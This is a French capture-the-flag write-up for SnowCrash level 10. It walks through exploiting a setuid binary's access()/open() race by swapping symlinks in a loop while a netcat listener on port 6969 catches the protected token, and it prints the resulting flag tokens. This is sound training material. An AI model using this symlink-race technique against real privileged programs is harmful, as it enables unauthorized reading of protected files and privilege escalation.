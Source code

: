 # Level 10

</br></br>

## file list in home

```zsh
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

</br></br>

## execute file level10

```zsh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
```

"./level10 file host" signifie que l'on doit mettre file et host en tant que parametre

</br></br>

## ltrace level10

```zsh
level10@SnowCrash:~$ ltrace ./level10
__libc_start_main(0x80486d4, 1, 0xbffff7f4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
)    = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

</br></br>

## strings level10

```zsh
...
...
PTRh
UWVS
[^_]
%s file host
        sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
...
...
```

Connecter à 6969, on a besoin d'écouter la porte 6969

```zsh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)  = 31
+++ exited (status 31) +++
```

on peut voir que level10 utilise access

</br></br>

## access

```zsh
level10@SnowCrash:~$ man access
...
...
 Warning: Using access() to check if a user is authorized to,  for  exam‐
       ple,  open a file before actually doing so using open(2) creates a secu‐
       rity hole, because the  user  might  exploit  the  short  time  interval
       between  checking  and opening the file to manipulate it.  For this rea‐
       son, the use of this system call should be  avoided.   (In  the  example
       just  described,  a safer alternative would be to temporarily switch the
       process's effective user ID to the real ID and then call open(2).)
...
...
```

on peut voir "security hole"!!!!!

```zsh
level10@SnowCrash:~$ ./level10 level10 localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

donc, on va executer token en utilisant race condition et symbolic link

</br></br>

## execute

```zsh
level10@SnowCrash:~$ touch /tmp/level10
level10@SnowCrash:~$ ln -s ~/token /tmp/link
level10@SnowCrash:~$ nc -lk 6969
level10@SnowCrash:~$ nc -lk 6969
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
```

```zsh
level10@SnowCrash:~$ while true; do ln -sf /tmp/level10 /tmp/link; ln -sf ~/token /tmp/link; done
```

```zsh
level10@SnowCrash:~$ while true; do ln -sf /tmp/level10 /tmp/link; ln -sf ~/token /tmp/link; done
```

```zsh
level10@SnowCrash:~$ su flag10
Password:
getDon't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password:
level11@SnowCrash:~$
```
